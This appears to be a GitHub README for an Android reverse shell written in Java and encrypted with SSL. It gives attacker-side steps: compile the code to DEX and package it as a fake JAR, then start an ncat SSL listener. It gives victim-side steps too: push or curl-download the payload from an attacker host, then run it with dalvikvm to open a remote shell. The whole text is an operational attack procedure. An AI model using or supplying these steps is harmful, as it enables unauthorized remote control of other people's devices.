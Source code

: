 ## Android Reverse Java Shell using SSL Encryption

## On Attacker machine - Linux -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code to bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 Shell.java TrustAllCertificates.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 Shell.class TrustAllCertificates.class`

#### Create fake JAR file
`zip reverse_ssl.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337 --ssl`

## On Victim device - Android -
`adb push reverse_ssl.jar /sdcard` (if Android Debug Tools is enabled)

or you can just curl 

`curl http://attackingmachine:9999/reverse_ssl.jar -o /sdcard/reverse_ssl.jar`<br/>

and then run the reverse shell using dalvikvm from Termux:

`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse_ssl.jar Shell`

## Credits

Inspired from: https://gist.github.com/FrankSpierings/e330e3aea3152f816c202b883887dd60
